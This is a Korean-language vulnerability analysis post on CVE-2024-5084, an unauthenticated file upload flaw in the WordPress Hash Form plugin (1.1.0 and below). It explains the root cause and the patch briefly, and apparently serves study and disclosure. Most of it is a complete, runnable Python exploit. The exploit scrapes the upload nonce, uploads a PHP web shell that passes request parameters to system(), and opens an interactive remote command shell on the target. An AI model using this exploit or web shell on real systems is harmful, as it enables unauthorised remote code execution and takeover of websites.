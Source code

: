 ```yaml
---
title: "[CVE-2024-5084] 취약점 분석 보고서"
description: "Hash Form Plugin의 1.1.0 버전 이하에서 발생하는 파일 업로드 및 원격 코드 실행 취약점"
author: khh
date: 2025-01-13 12:00:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, WordPress Plugin, CVE, CVE-2024-5084]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```



## **개요**

Hash Form 플러그인 1.1.0 이하 버전에서 인증되지 않은 파일 업로드가 허용되어 RCE 취약점이 발생합니다.

## **분석**

취약점은 HashFormBuilder.php 파일의 file_upload_action() 함수에서 발생합니다. 

![image.png](assets/posts/one-day/2025-01-13/image-001.png)

해당 플러그인 file upload 기능에서 기본적으로 허용하는 확장자입니다.

![image.png](assets/posts/one-day/2025-01-13/image-002.png)

get_var(’allowedExtensions’)는 클라이언트에서 전달된 값입니다.

file_upload_action함수에서 클라이언트가 전달한 확장자를 검증 없이 무조건 신뢰하기 때문에 취약점이 발생합니다.

이렇게 전달된 파일의 확장자와 파일 크기를 HashFormFileUploader 객체로 전달합니다.

![image.png](assets/posts/one-day/2025-01-13/image-003.png)
해당 객체에 unallowed_extensions 변수가 정의되어 있지만 사용되지 않습니다.
get_allowed_mime_types()함수로 파일 확장자와 mime type을 가져오고, 전달받은 확장자와 비교해 allowedExtensions에 추가합니다. php는 get_allowed_mime_types에 포함되어 있고, 결국 allowedExtensions에 추가되어 php 파일을 업로드할 수 있게 됩니다.

## **POC**

```python
import re
import sys
import json
import requests
import rich_click as click

from typing import Optional
from prompt_toolkit import PromptSession
from prompt_toolkit.formatted_text import HTML
from requests.exceptions import RequestException
from prompt_toolkit.history import InMemoryHistory

requests.packages.urllib3.disable_warnings()

class HashForms:
    """
    A class to interact with a WordPress site using the Hash Form plugin, demonstrating
    exploitation of CVE-2024-5084: Unauthenticated Arbitrary File Upload leading to Remote Code Execution.
    """

    def __init__(self, base_url: str):
        """
        Initializes the HashForms instance with the base URL of the WordPress site.
        """
        self.base_url = base_url

    def get_nonce(self) -> Optional[str]:
        """
        Retrieves the nonce required for file upload from the WordPress site.
        """
        try:
            response = requests.get(self.base_url, verify=False)
            response.raise_for_status()
            return re.search(r'"ajax_nounce":"(\w+)"', response.text).group(1)
        except RequestException as e:
            self.custom_print(f"Connection error: {e}", "-")
        except AttributeError:
            self.custom_print("Nonce not found in the response.", "-")
        return None

    def upload_php_file(
        self, nonce: str, file_content: str, file_name: str = "pwny.php"
    ) -> Optional[str]:
        """
        Attempts to upload a PHP file using the obtained nonce.
        """
        full_url = f"{self.base_url}/wp-admin/admin-ajax.php"
        headers = {
            "User-Agent": "Mozilla/5.0 (Linux; rv:124.0)",
            "Content-Length": str(len(file_content)),
        }
        params = {
            "action": "hashform_file_upload_action",
            "file_uploader_nonce": nonce,
            "allowedExtensions[0]": "php",
            "sizeLimit": 1048576,
            "qqfile": file_name,
        }

        try:
            response = requests.post(
                full_url,
                headers=headers,
                params=params,
                data=file_content,
                verify=False,
            )
            response.raise_for_status()
            response_json = response.json()
            if response_json.get("success"):
                self.custom_print(
                    f"File uploaded successfully; system vulnerable to CVE-2024-5084.",
                    "+",
                )
                return response_json["url"]
            self.custom_print("Upload failed; server did not return success.", "-")
        except RequestException as e:
            self.custom_print(f"Upload failed: {e}", "-")
        return None

    def interactive_shell(self, url: str):
        """
        Launches an interactive shell to communicate with the uploaded PHP file for command execution.
        """
        session = PromptSession(history=InMemoryHistory())
        while True:
            cmd = session.prompt(
                HTML("<ansiyellow><b>$ </b></ansiyellow>"), default=""
            ).strip()
            if cmd.lower() == "exit":
                break
            if cmd.lower() == "clear":
                sys.stdout.write("\x1b[2J\x1b[H")
                continue

            response = self.fetch_response(url, cmd)
            if response:
                self.custom_print(f"Result:\n\n{response}", "*")
            else:
                self.custom_print("Failed to receive response from the server.", "-")

    def fetch_response(self, url: str, cmd: str) -> Optional[str]:
        """
        Sends a command to the remote PHP file and fetches the output.
        """
        try:
            response = requests.get(f"{url}?cmd={cmd}", verify=False)
            response.raise_for_status()
            return response.text
        except RequestException:
            self.custom_print("Error communicating with the remote server.", "-")
        return None

    def custom_print(self, message: str, header: str) -> None:
        """
        Prints a message with a colored header to indicate the message type.
        """
        header_colors = {"+": "green", "-": "red", "!": "yellow", "*": "blue"}
        header_color = header_colors.get(header, "white")
        formatted_message = click.style(
            f"[{header}] ", fg=header_color, bold=True
        ) + click.style(f"{message}", bold=True, fg="white")
        click.echo(formatted_message)

if __name__ == "__main__":

    @click.command()
    @click.option(
        "-u", "--url", type=str, required=True, help="Base URL of the WordPress site"
    )
    def main(url: str):
        hash_forms = HashForms(url)
        nonce = hash_forms.get_nonce()
        if nonce:
            file_url = hash_forms.upload_php_file(
                nonce, '<?php system($_GET["cmd"]); ?>'
            )
            if file_url:
                hash_forms.custom_print(
                    f"File uploaded to: {file_url}. Interactive shell available.", "+"
                )
                hash_forms.interactive_shell(file_url)
            else:
                hash_forms.custom_print("Upload failed;", "-")
        else:
            hash_forms.custom_print("Nonce not found, unable to attempt upload.", "-")

    main()
```

![image.png](assets/posts/one-day/2025-01-13/image-004.png)

## **패치**

![image.png](assets/posts/one-day/2025-01-13/image-005.png)

file_upload_action 함수에 기본 허용 확장자를 추가해 비교하는 코드를 추가했습니다.

reference: <https://github.com/Chocapikk/CVE-2024-5084/tree/main>